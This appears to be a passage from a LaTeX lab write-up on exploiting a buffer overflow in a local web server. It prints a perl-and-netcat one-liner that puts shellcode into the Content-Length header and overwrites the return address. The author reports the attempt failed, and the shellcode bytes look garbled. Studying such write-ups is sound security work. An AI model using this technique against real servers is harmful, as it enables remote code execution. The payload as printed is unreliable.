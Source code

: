 \documentclass[a4paper,11pt,hidelinks]{article}
\begin{document}
It is additionally possible to exploit the vulnerability via injecting shell code in the Content-Length parameter (the path parameter is also vulnerable, although harder to exploit). In order to obtain the necessary parameters for a successful exploitation, I used \verb=gdb= on the \verb=webserver= executable, placing a breakpoint at line \verb=88= in order to learn the address of the \verb=rip= (return instruction pointer) address. For the shell code, I used the following one: \url{http://shell-storm.org/shellcode/files/shellcode-106.php}. The obtained script looked like this:

\begin{code}{Code for the exploitation.}
  perl -e 'print "POST \/ HTTP\/1.1\r\n
  Content-Length: \x3b\xbf
  \x2f\x2f\x6e\x2f\xef{}
  \x0f"
   . "A"x1097
   . "\x5a\xff\x7f"
   . "\r\n\r\n"' | nc -v -v -q 2 localhost 8080
\end{code}

This code makes a request whose Content-Length header first contains the shell code, then some random As - enough to overflow the buffer and barely touch the \verb=rip= registry - finally, the address of the start of the buffer and two \verb=CRLF=. However, I wasn't able to fully reproduce the vulnerability, due to repeated segmentation fault.


\endgroup
\end{document}
